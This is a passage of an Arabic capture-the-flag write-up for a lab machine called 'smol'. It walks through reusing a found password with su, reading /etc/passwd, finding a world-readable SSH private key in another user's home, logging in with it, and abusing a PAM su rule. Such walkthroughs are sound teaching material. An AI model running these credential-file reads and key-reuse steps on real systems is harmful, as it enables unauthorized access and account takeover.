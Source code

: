 ```bash
Session completed
```
عندنا كلمة مرور، خلينا نرجع للسيرفر ونشوف المستخدمين:
```bash
www-data@smol:/var/www/wordpress/wp-admin$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/usr/bin/bash
think:x:1000:1000:,,,:/home/think:/bin/bash
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
```
نحاول كلمة المرور معهم كلهم ويدخلنا على diego
### diego
```bash
www-data@smol:/var/www/wordpress/wp-admin$ su diego
Password: FOUND PASSWORD

diego@smol:/var/www/wordpress/wp-admin$ cd
diego@smol:~$ ls
user.txt
diego@smol:~$ 
```
حصلنا العلم الأول، خلينا نطلع فوق حبة ونشوف الملفات الموجودة عند المستخدمين الآخرين
```bash
diego@smol:/home$ ls -al ./* --recursive
...
./think:
total 32
drwxr-x--- 5 think internal 4096 Jan 12  2024 .
drwxr-xr-x 6 root  root     4096 Aug 16  2023 ..
lrwxrwxrwx 1 root  root        9 Jun 21  2023 .bash_history -> /dev/null
-rw-r--r-- 1 think think     220 Jun  2  2023 .bash_logout
-rw-r--r-- 1 think think    3771 Jun  2  2023 .bashrc
drwx------ 2 think think    4096 Jan 12  2024 .cache
drwx------ 3 think think    4096 Aug 18  2023 .gnupg
-rw-r--r-- 1 think think     807 Jun  2  2023 .profile
drwxr-xr-x 2 think think    4096 Jun 21  2023 .ssh
lrwxrwxrwx 1 root  root        9 Aug 18  2023 .viminfo -> /dev/null
ls: cannot open directory './think/.cache': Permission denied
ls: cannot open directory './think/.gnupg': Permission denied

./think/.ssh:
total 20
drwxr-xr-x 2 think think    4096 Jun 21  2023 .
drwxr-x--- 5 think internal 4096 Jan 12  2024 ..
-rwxr-xr-x 1 think think     572 Jun 21  2023 authorized_keys
-rwxr-xr-x 1 think think    2602 Jun 21  2023 id_rsa
-rwxr-xr-x 1 think think     572 Jun 21  2023 id_rsa.pub
...
```
أحد المستخدمين عنده مفتاح ssh أي شخص يقدر يقرؤه، خلينا ننسخه عندنا وندخل من ssh بهذا المستخدم
```bash
$ echo "-----BEGIN OPENSSH PRIVATE KEY-----..." > id_rsa
$ chmod 600 id_rsa
$ ssh -i id_rsa think@<TARGET_IP>
```
### think
يوم ندخل المستخدم الثاني ماراح نحصل أي شيء مفيد، نعرف أن عندنا ملف مضغوط عند gege لكن ما عندنا الصلاحيات عشان ننسخه أو نقرأه، إذا جربنا نحول على المستخدم gege بدون كلمة مرور ، راح يسمحلنا. السبب في هذا هي قاعدة في ملف etc/pam.d/su/
```bash
# This allows root to su without passwords (normal operation)
```